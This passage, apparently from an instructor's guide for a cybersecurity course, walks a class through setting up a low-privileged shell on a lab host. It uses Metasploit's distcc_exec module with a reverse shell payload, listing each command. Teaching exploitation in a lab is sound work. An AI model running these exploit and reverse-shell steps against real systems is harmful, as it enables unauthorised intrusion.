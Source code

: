 Explain that in the next activity, students will attempt to find a way to escalate their privileges from the **daemon** user to a higher-privileged user.
- But for this activity, everyone first needs to be at the same starting point on the remote machine, so we'll complete a setup activity together as a class. 

#### Post Exploitation Activity Setup

As a class, we will first set up a low-privileged shell using Metasploit, which students will then use for post-exploitation and privilege-escalation techniques. Remind the class to follow along on their own computers as you complete these steps:

1. In Metasploit, search for `distcc`, and select it. 

   - `search distcc` 
   
   - `use 0` or `use exploit/unix/misc/distcc_exec`

   ![A screenshot depicts the results of the commands.](images/searchdistcc.PNG)

   - Explain that `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable. 

2. List the options of the module, and point out that we need to set RHOSTS again as it is a required option.

   - `set RHOSTS 172.22.117.150`

3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   - Point out the **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. List options again, and point out that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.
